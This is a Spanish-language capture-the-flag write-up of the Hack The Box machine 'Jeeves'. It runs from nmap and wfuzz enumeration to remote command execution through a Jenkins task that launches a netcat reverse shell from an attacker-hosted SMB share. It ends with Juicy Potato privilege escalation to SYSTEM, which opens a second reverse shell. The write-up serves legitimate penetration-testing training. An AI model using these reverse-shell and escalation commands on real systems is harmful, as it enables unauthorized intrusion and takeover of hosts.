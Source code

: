 ```yaml
---
title: Jeeves Writeup
author: root3200
date: 2022-08-09
categories: [Writeup, HTB]
tags: [Windows, Jenkins, RCE, CMD, Powershell]
image:
  path: ../../assets/img/Jeeves.png
  width: 800 #normal 800
  height: 500 #normal 500
  alt: Jeeves
---
```


# Maquina windows JEEVES.
En esta maquina tendremos que hacer RCE desde una aplicacion llamada JENKINS con una version vulnerable, que nos permite ejecutar comandos de windows cmd o powershell , ejecutaremos comandos para obtener una revershell.

# Reconocimiento.
Con nmap ejecutamos el reconocimiento.

````bash
>nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oG scan 10.10.10.63
 
>Host: 10.10.10.63 ()	Status: Up
Host: 10.10.10.63 ()	
Ports: 80/open/tcp//http/// 
135/open/tcp//msrpc/// 
445/open/tcp//microsoft-ds/// 
50000/open/tcp//ibm-db2/// Ignored State: filtered (65531)
```` 

Copiamos los puertos abiertos y ejecutamos con nmap 

````bash
>nmap -sCV -p80,135,445,50000 -Pn -oN scanport 10.10.10.63

>PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-09-08T21:10:39
|_  start_date: 2022-09-08T21:07:37
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m58s
`````

# Enumeracion
Vamos a revisar los puertos abiertos 80,135,445,50000

## Puerto 445
Usamos  crackmapexec  para obtener informacion de la maquina, vemos que es un windows 10 el nombre del dominio y el nombre da la maquina.

````bash
>crackmapexec smb 10.10.10.63

>SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False)
`````

Con smbclient vemos que no tenemos acceso a recursos compartidos.

````bash
>smbclient -L 10.10.10.63 -N

>session setup failed: NT_STATUS_ACCESS_DENIED
`````

## Puerto 80.
Vamos a la url http://10.10.10.63 

![imagen-de-prueba](/assets/img/jeeves/pagina-puerto-80.png)
_Pagina_


Vemos que la pagina nos muestra algo sencillo y un campo para hacer preguntas, hacemos una prueba ingresando algo en el campo search pero la pagina nos redireciona a una imagen que habla de un error 

![imagen-de-prueba](/assets/img/jeeves/error-pagina-80.png)
_Error:80_

# Puerto 50000
Revisando el scanport de nmap vemos el puerto 50000 abierto con un servicio 

````bash
50000/tcp open  http         `Jetty 9.4.z-SNAPSHOT`
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
`````

Vamos a la url http://10.10.10.63:50000 

![imagen-de-prueba](/assets/img/jeeves/puerto-50000.png)
_Nmap_


Viedo esto intentamos realizar un escaneo con wfuzz a la url con el puerto 50000.

````bash
>wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63:50000/FUZZ
`````

Despues de unos minutos el escaneo nos da el una ruta llamada `askjeeves`

![imagen-de-prueba](/assets/img/jeeves/wfuzz.png)
_Escaneo_

Vamos a la url con la nueva ruta http://10.10.10.63:50000/askjeeves, nos lleva a jenkins que es un servidor de automatizacion.

![imagen-de-prueba](/assets/img/jeeves/jenkins.png)
_pagina_


Tenemos un panel donde investigando un poco vemos q podemos crear tareas

![imagen-de-prueba](/assets/img/jeeves/jenkins-2.png)
_pagina_

Analizando un poco vemos que la tarea nos permite ejecutar comandos windows con cme o powershell, viendo esto ya imaginamos vias potenciales para acceder al sistema.

![imagen-de-prueba](/assets/img/jeeves/jenkins-tareas.png)
_Image Caption_

![imagen-de-prueba](/assets/img/jeeves/comandos-cmd .png)
_cmd_

Creamos la tarea con un comando por cmd para hacer un ping a mi maquina.
 
![imagen-de-prueba](/assets/img/jeeves/pingg.png)
_comando ping_ 

Ejecuto tcpdump para ver si mi maquina responde al ping

````bash
>sudo tcpdump -i tun0 icmp
`````

![imagen-de-prueba](/assets/img/jeeves/tcpdump.png)
_tcpdum_ 


Como se ve en la imagen tengo respuesta y ya conesto sabemos que el servidor jenkins es vulnerable y se puede hacer un RCE.

# Intrusion 
Tenemos conocimiento de que podemos hacer RCE con el servidor jenkins, hay muchas formas de ejecutar comandos para tener acceso remoto a la maquina, yo lo hare con smbserver para crear un recurso compartido y luego creo una tarea en jenkins que ejecute un comando para generar una revershell.

1. Con smbserver creo un recurso compartido.

````bash
>sudo impacket-smbserver smbFolder $(pwd) -smb2support 
`````

2. Descargo netcatx64.exe y lo guardo en la ruta de mi recurso compartido.

3. Creo la tarea en jenkins y agrego el siguiente comando.

````bash
>\\10.10.14.16\smbFolder\ncx64.exe -e cmd 10.10.14.16 443
`````

4. Nos ponemos en escucha con nc ,el smbserver esta activo , ejecutamos la tarea y obtenemos una revershell

![imagen-de-prueba](/assets/img/jeeves/revershell.png)
_shell user_ 


# Escalar privilegios 
Una vez dentro de la maquina vemos que estamos con el usuario `kohsuke`, ejecutemos algunos comandos que nos de informacion de este usuario.

````bash
>whoami /priv
`````

imagen de seimpersonal


El usuario cuenta con el `SeImpersonatePrivilege` lo cual nos proporciona una forma de escalar privilegios, para eso usamos una herramienta llamada `Juicy Potato` que nos permite escalar desde una cuenta normal y ejecutar comandos como `NT AUTHORITY\SYSTEM`.

1. Descargamos desde github el binario .exe
2. Subimos el binario a la maquina victima
3. Ejecutamos el siguiente comando para escalar privilegios.

````bash
.\jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443"

##La ruta del ejemplo es de donde almacene el netcat
`````

![imagen-de-prueba](/assets/img/jeeves/revershelladmin.png)
_shell admin_ 
